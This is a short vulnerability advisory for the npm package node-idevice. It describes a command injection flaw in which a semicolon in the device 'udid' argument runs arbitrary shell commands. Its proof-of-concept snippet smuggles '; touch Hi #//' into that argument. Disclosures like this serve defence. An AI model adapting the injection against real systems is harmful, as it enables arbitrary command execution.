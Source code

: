 # Overview

node-idevice is a package to install apps to iOS devices via node.

Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands by using a semicolon char while [declaring](https://github.com/OniOni/node-idevice/blob/master/main.js#L8) the `udid` on `IDevice`(see PoC).
It is then executed with any function calling `IDevice.prototype.list`.

https://www.npmjs.com/package/node-idevice

# Proof of Concept

```javascript
var idevice = require('node-idevice');
var device = new idevice("; touch Hi #//");

device.isInstalled("hacked", function (err, installed) {
        console.log("done");
});
```
